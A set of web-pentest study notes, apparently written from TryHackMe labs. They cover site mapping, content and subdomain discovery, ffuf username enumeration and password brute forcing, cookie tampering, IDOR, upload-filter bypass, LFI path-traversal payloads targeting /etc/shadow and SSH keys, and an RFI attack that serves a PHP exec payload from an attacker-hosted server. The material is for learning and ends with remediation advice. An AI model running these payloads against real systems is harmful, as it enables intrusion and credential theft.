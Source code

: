 = Process

== Walking the application

=== Manually, simple browsing
Manually explore the target website with the browser's tools and take notes of the structure.

Example with a test website:

|===
|Feature |URL |Summary

|Home Page
|URL
|This page contains a summary of what Acme IT Support does with a company photo of their staff.

|Latest News
|/news
|This page contains a list of recently published news articles by the company, and each news article has a link with an id number, i.e. /news/article?id=1

|ews Article
|/news/article?id=1
|Displays the individual news article. Some articles seem to be blocked and reserved for premium customers only.

|Contact Page
|/contact
|This page contains a form for customers to contact the company. It contains name, email and message input fields and a send button.

|Customers
|/customers
|This link redirects to /customers/login.

|Customer Login
|/customers/login
|This page contains a login form with username and password fields.

|Customer Signup
|/customers/signup
|This page contains a user-signup form that consists of a username, email, password and password confirmation input fields.

|Customer Reset Password
|/customers/reset
|Password reset form with an email address input field.

|Customer Dashboard
|/customers
|This page contains a list of the user's tickets submitted to the IT support company and a "Create Ticket" button.

|Create Ticket
|/customers/ticket/new
|This page contains a form with a textbox for entering the IT issue and a file upload option to create an IT support ticket.

|Customer Account
|/customers/account
|This page allows the user to edit their username, email and password.

|Customer Logout
|/customers/logout
|This link logs the user out of the customer area.
|===

=== View the page source
* check HTML comments for information
* check external files if they are stored in the same directory, with directory listing feature enabled, we could get access to extra files
* check for clues on the framework used to build the website. Is it up-to-date?

=== Developer tools

==== Inspector
The page source doesn't always represent what's shown on a webpage; this is because CSS, JavaScript and user interaction can change the content and style of the page, which means we need a way to view what's been displayed in the browser window at this exact time. Element inspector assists us with this by providing us with a live representation of what is currently on the website.

We can check CSS and remove paywall (display: block -> display: none)

==== Debugger
Debug page JavaScript using breakpoints, edit JavaScript

==== Network
The network tab on the developer tools can be used to keep track of every external request a webpage makes. If we click on the Network tab and then refresh the page, we'll see all the files the page is requesting.

AJAX is a method for sending and receiving network data in a web application background without interfering by changing the current web page.

== Content discovery
Content can be many things, a file, video, picture, backup, a website feature. We try to find content that weren't always intended for public access.

This content could be, for example, pages or portals intended for staff usage, older versions of the website, backup files, configuration files, administration panels, etc.

Three main ways: manually, automated and OSINT (Open-Source Intelligence).

=== Manual
==== Robots.txt
Document that tells search engines which pages they are and aren't allowed to show on their search engine results (admin page, files for customers, ...) or ban specific search engines from crawling the website altogether.

==== Favicon
Small icon displayed in the browser's address bar or tab used for branding a website. Sometimes, the framework's favicon isn't replace by a custom one so this gives us clues.

Check OWASP favicon DB using md5sum of the favicon: https://wiki.owasp.org/index.php/OWASP_favicon_database

[source,shell]
----
curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum
----

==== Sitemap.xml
The sitemap.xml file gives a list of every file the website owner wishes to be listed on a search engine. These can sometimes contain areas of the website that are a bit more difficult to navigate to or even list some old webpages that the current site no longer uses but are still working behind the scenes.

==== HTTP headers
Check webserver software, programming/scripting language in use

==== Framework stack
Find framework stack using favicon, page source (comments, copyright notices, credits, ...).

Look for default credentials, default admin page, ...

=== OSINT
Find info on the target using freely available tools (search engine, ...)

==== Google hacking/dorking
https://en.wikipedia.org/wiki/Google_hacking

|===
|Filter |Example |Description

|site
|site:tryhackme.com
|returns results only from the specified website address

|inurl
|inurl:admin
|returns results that have the specified word in the URL

|filetype
|filetype:pdf
|returns results which are a particular file extension

|intitle
|intitle:admin
|returns results that contain the specified word in the title

|===

==== Wappalyzer
Online tool and browser extension that helps identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors and much more, and it can even find version numbers as well.

https://www.wappalyzer.com/


==== Wayback Machine
Historical archive of websites that dates back to the late 90s. We can search a domain name, and it will show us all the times the service scraped the web page and saved the contents. This service can help uncover old pages that may still be active on the current website.

https://archive.org/web/

==== GitHub
Use GitHub search feature to look for company names or website names. Check source code for passwords or other content.

==== S3 Buckets
Check public S3 buckets of the company.

S3 buckets can be discovered in many ways, such as finding the URLs in the website's page source, GitHub repositories, or even automating the process. One common automation method is by using the company name followed by common terms such as \{name\}-assets, \{name\}-www, \{name\}-public, \{name\}-private, etc.

=== Automated discovery
Automated requests that check whether a file or directory exists on a website, giving us access to resources we didn't previously know existed. This process is made possible by using a resource called wordlists.

For website: https://github.com/danielmiessler/SecLists

For passwords: Rockyou, ...

==== Tools
Plenty of tools available: ffuf, dirb, gobuster, ...

[source, bash]
----
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.173.61/FUZZ

dirb http://10.10.173.61/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

gobuster dir --url http://10.10.173.61/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
----

== Subdomain enumeration
Find valid subdomains for a domain to expand our attack surface to try and discover more potential points of vulnerability.

=== Brute force
Bruteforce DNS enumeration is the method of trying millions of different possible subdomains from a pre-defined list of commonly used subdomains.

Tool: dnsrecon

=== OSINT

==== SSL/TLS certificates
When an SSL/TLS (Secure Sockets Layer/Transport Layer Security) certificate is created for a domain by a CA (Certificate Authority), CA's take part in what's called "Certificate Transparency (CT) logs". These are publicly accessible logs of every SSL/TLS certificate created for a domain name. The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used.

Can use sites to discover subdomains :

* https://crt.sh/
* https://transparencyreport.google.com/https/certificates

==== Search engines
Use google filters to find subdomains -> -site:www.tryhackme.com  site:*.tryhackme.com

==== Sublist3r
Automated tool (python script) used to bruteforce DNS using search engines and other tools.

=== Virtual hosts
Some subdomains aren't always hosted in publicly accessible DNS results but can be found in hosts file. We can update the Host header and check the response to see if we've discovered a new website.

The following command outputs lots of results. For invalid request, we always get the same error so we can filter out those errors using -fs and the size of the response.

[source,shell]
----
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.74.156 -fs {size}
----

== Authentication bypass

=== Username enumeration
Create a list of valid usernames using error messages to get information (An account with this username already exists).

Use ffuf tool that uses a list of commonly used usernames to check against for any matches.

[source,shell]
----
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.130/customers/signup -mr "username already exists"
----

Save valid usernames in a file for later.

=== Brute force
Using existing valid usernames from enumeration, we can try brute forcing their password.

[source, shell]
----
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.130/customers/login -fc 200
----

=== Logic flaw
Bypass a typical logical path of an application.

* bad regex or string comparison
* input sent in query parameter and post data. POST data can overwrite the query parameter if the key is the same so if the website first check the query param and continue with the POST data, we can overwrite that

[source,php]
----
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
----

Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

=== Cookie tampering
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

==== Plain text
Just update the cookie to change the behaviour of the application

[source, shell]
----
curl -H "Cookie: logged_in=true; admin=false" http://10.10.247.130/cookie-test


user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.247.130/cookie-test
----

==== Hashing
Even though a hash is irreversible, the same output is produced every time for the same input which is helpful for service such as https://crackstation.net/ which keep database of billions of hashes and their original strings.

|===
|Original String |Hash Method |Output

|1
|md5
|c4ca4238a0b923820dcc509a6f75849b

|1
|sha-256
|6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b

|1
|sha-512
|4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a

|1
|sha1
|356a192b7913b04c54574d18c28d46e6395428ab

|===

==== Encoding
Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible. Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encodings: base32 (A-Z, 2-7) and base64 (a-z, A-Z, 0-9, +, /, = for padding).

== Insecure Direct Object Reference (IDOR)
If we have an URL such as http://online-service.thm/profile?user_id=1305 and we try another ID param and get the information of the other user.

We can find IDOR in:

* encoded ID, usually base64 (a-zA-Z0-9=)
* hashed ID like an ID number 123 which would be hashed using md5sum, check https://crackstation.net for any match
* unpredictable IDs can be tested by creating two accounts and swap ID to see if we get the other's infos

The vulnerable endpoint may not always be something we see in the address bar. It could be content our browser loads in via an AJAX request or a reference in a JavaScript file.

*Parameter mining* can be used to discover parameter such as user_id for /user/details endpoint.

== File upload
1. Take a look at the website as a whole (wappalyzer extension or by hand), find indicators on languages and frameworks. Check headers (server, x-powered-by), look for upload page
2. look at the source code of upload page, look for client side scripts for filters
3. upload valid file, check the result. Can we directly access it? Is it embedded in the page somewhere? What's the naming scheme -> use Gobuster (use -x switch to find our file)
4. upload malicious file, bypass client-side filters, check server-side filters

If we can successfully upload a file with a totally invalid file extension -> blacklist most likely; if it fails -> whitelist

Reupload valid file with updated magic number to check if the server uses magic number based filtering

Reupload valid file, intercept request with Burpsuite and change IMI type of the upload to something that we would expect to be filtered. If upload fails -> server is filtering based on MIME types.

Enumerate file length filters -> upload progressively bigger files until we hit the filter

== File inclusion
Happens when some files from the file system should be returned (images, static text, ...) via parameters.

http://webapp.thm/get.php?file=userCV.pdf

Several types:

* local file inclusion (LFI)
* remote file inclusion (RFI)
* directory traversal

If we can write to the server in directories such as /tmp, we could gain remote command execution (RCE).

For file inclusion to be worth it, we need access to sensitive data or writing ability on the server.

=== Path traversal / Directory traversal / dot-dot-slash attack
Read operating system resources (local files) from outside the application's root directory using URL.

This vulnerability occurs when the user's input is passed to a function such as file_get_contents in PHP and poor validation.

* Linux: http://webapp.thm/get.php?file=../../../../etc/passwd
* Windows XP/Server 2003/newer: http://webapp.thm/get.php?file=../../../../boot.ini
* Windows (older version): http://webapp.thm/get.php?file=../../../../windows/win.ini

Common OS files:

|===
|Location |Description

|/etc/issue
|contains a message or system identification to be printed before the login prompt.

|/etc/profile
|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived

|/proc/version
|specifies the version of the Linux kernel

|/etc/passwd
|has all registered user that has access to a system

|/etc/shadow
|contains information about the system's users' passwords

|/root/.bash_history
|contains the history commands for root user

|/var/log/dmessage
|contains global system messages, including the messages that are logged during system startup

|/var/mail/root
|all emails for root user

|/root/.ssh/id_rsa
|Private SSH keys for a root or any known valid user on the server

|/var/log/apache2/access.log
|the accessed requests for Apache webserver

|C:\boot.ini
|contains the boot options for computers with BIOS firmware

|===

=== LFI
We need to pay attention to error logging returned when trying LFI. This may give us clues about path.

PHP functions: include, require, include_once, require_once

[source,php]
----
<?PHP
	include($_GET["lang"]);
?>
----

We can load AR.php or EN.php which are located in the same directory using this query

[source,shell]
----
GET http://webapp.thm/index.php?lang=EN.php
----

We could try this for direct access

[source,shell]
----
GET http://webapp.thm/index.php?lang=/etc/passwd
----

If there is a path, we need to use path traversal.

[source,php]
----
<?PHP
	include("languages/". $_GET['lang']);
?>
----

[source,shell]
----
http://webapp.thm/index.php?lang=../../../../etc/passwd
----

==== Bypass
===== Null byte
If some information is appended to our input which makes the path traversal invalid, we can use the null byte (%00 or 0x00) to disregard what appears after the payload (fixed in PHP 5.3.4).

Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12

in this example, .php was added.

=> http://10.10.97.221/lab3.php?file=../../../../etc/passwd%00

This can also be used if there is some restriction on file extension. For example, if there is a file that we want from an open FTP that ends with .json but we are only allowed to download .md and .pdf, we can query the file using ip/ftp/package.json%2500.md -> the request is valid and the server will ignore anything after the .json

===== Current directory trick
If there is some filtering, we can use the current directory trick at the end of the filtered keyword "/.".

Example: http://webapp.thm/index.php?lang=/etc/passwd/.

Because /etc/passwd/. = /etc/passwd

===== Replacing of "../" by an empty string
If ../../../../etc/passwd becomes /etc/passwd (check potential error message), we can use the following trick with PHP because the filter only matches and replaces the first subset string.

....//....//....//....//....//etc/passwd

because

===== Webapp asks to supply input that has a include directory
The code forces the include to read from a defined directory.

http://webapp.thm/index.php?lang=languages/EN.php

To exploit this, we need to include the directory in the payload like:

?lang=languages/../../../../../etc/passwd

else we get an error like "Access Denied! Allowed files at languages folder only" (custom error)

===== Filtering of slash
If the forward slash is filtered out from the input. It may be possible to use $_REQUEST for PHP website.

$_REQUEST is a PHP super global variable which is used to collect data after submitting an HTML form. We need to specify the method in the data.

[source,bash]
----
curl -v 10.10.87.141/challenges/chall3.php -X POST -d 'method=POST&file=../../../../etc/flag3%00' --output -
----

=== RFI
Remote file inclusion is a technique to include remote files into a vulnerable application -> inject external URL into include function.

One requirement for RFI is that the allow_url_fopen option needs to be "on".

Bigger risk than LFI because an attacker can gain Remote Command Execution (RCE) on the server. Other consequences: sensitive information disclosure, XSS, DoS.

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

==== Execute PHP code on the server
Create file (cmd.txt) with some PHP code

[source, php]
----
<? PHP print exec('hostname'); ?>
----

Start a server with Python where the file is located

[source, bash]
----
python3 -m http.server 4444
----

Inject the URL to the file http://10.10.26.138:4444/cmd.txt

The PHP code is executed on the (unprotected) server and gives us back the hostname.

==== Remediation

. keep everything updated with the latest version
. turn off PHP errors to avoid leaking path of the app and other info
. use Web Application Firewall
. disable some PHP features like allow_url_fopen and allow_url_include
. carefully analyze web app and allow only protocols and PHP wrappers that are in need
. never trust user input, implement proper validation against file inclusion
. implement whitelisting for file names and locations as well as blacklisting

